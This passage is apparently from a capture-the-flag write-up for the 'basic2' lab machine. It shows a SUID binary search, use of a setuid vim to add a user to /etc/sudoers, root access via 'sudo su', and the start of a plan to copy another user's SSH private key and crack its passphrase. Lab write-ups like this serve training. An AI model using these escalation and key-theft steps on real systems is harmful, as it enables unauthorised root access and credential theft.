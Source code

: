 ```r
jan@basic2:~$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc

...

-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 2437320 Nov 24  2016 /usr/bin/vim.basic
-rwsr-xr-x 1 root root 23376 Jan 17  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
...
```

In this case, I'll be editing the `/etc/sudoers` to make <i>jan</i> a sudo user using `vim /etc/sudoers`

```r
...

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
jan     ALL=(ALL:ALL) ALL
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
...
```

Save the file forcefully using `:wq!` Now we can elevate our privileges to root! Login using the password <i>armando</i> And now we can read our flag.

```r
jan@basic2:~$ sudo su
[sudo] password for jan: 
root@basic2:/home/jan# 
```

## Root by Cracking ssh Passphrase

If we look in <i>Kay's</i> home directory, we can see a <i>pass.bak</i> file. But we do not have permission to read it. Also there is a '.ssh' directory. It contains the private rsa key (id_rsa) of the user. Let's copy it to our machine.

```r
jan@basic2:/home/kay$ ls -lah
total 48K
drwxr-xr-x 5 kay  kay  4.0K Apr 23  2018 .
drwxr-xr-x 4 root root 4.0K Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout 
-rw-r--r-- 1 kay  kay  3.7K Apr 17  2018 .bashrc 
drwx------ 2 kay  kay  4.0K Apr 17  2018 .cache 
-rw------- 1 root kay   119 Apr 23  2018 .lesshst 
drwxrwxr-x 2 kay  kay  4.0K Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak   
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile 
drwxr-xr-x 2 kay  kay  4.0K Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```
